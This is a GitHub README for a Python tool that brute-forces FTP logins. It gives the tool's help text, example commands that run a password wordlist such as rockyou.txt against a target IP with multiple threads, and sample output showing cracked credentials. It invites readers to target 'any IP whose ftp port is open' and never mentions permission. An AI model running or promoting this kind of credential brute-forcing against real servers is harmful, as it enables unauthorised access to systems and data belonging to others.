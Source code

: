 ## Ftp-cracker(using Python) ##

**Introduction:**

A password cracker which works on open ftp port of an IP address. Provide the IP address , username and password list, it will find out the password for you.

**Requirments:--**

***Modules***

```import ftplib
from threading import Thread
import queue
from colorama import Fore, init
```

``` import argparse ```  and a ```wordlists.txt```

* Using ```ftp_cracker.py``` for fast brute-force

```python ftp_cracker.py --help```

**Output:**
``` 
usage: ftp_cracker.py [-h] [-u USER] [-p PASSLIST] [-t THREADS] host

FTP Cracker made with Python

positional arguments:
host                  The target host or IP address of the FTP server

optional arguments:
-h, --help            show this help message and exit
-u USER, --user USER  The username of target FTP server
-p PASSLIST, --passlist PASSLIST
                        The path of the pass list
-t THREADS, --threads THREADS
                        Number of workers to spawn for logining, default is 30
```
* You can use any password list , here i have provided the ``` wordlist.txt ``` , but you also can use ``` /usr/share/wordlists/rockyou.txt ``` provided in ``` kali linux ```
and for IP address choose any IP whose ftp port is open.

``` python ftp_cracker.py "IP address" -u "user name" -p wordlist.txt ```

* You can also tweak the number of threads to spawn (can be faster, default is 30):

``` python ftp_cracker.py "IP address" -u "user name" -p wordlist.txt --threads 35 ```

**Output:**
```
[+] Passwords to try: 5000
[!] Trying 123456
[!] Trying 12345
[!] Trying 123456789
[!] Trying password
[!] Trying iloveyou
[!] Trying princess
[!] Trying 12345678
[!] Trying 1234567
[!] Trying nicole
[!] Trying daniel
[!] Trying monkey
[!] Trying babygirl
[+] Found credentials: 
        Host: 192.168.0.105                                                                                                                                  
        User: Anonymous                                                                                                                                      
        Password: 123456                                                                                                                    
```        
        





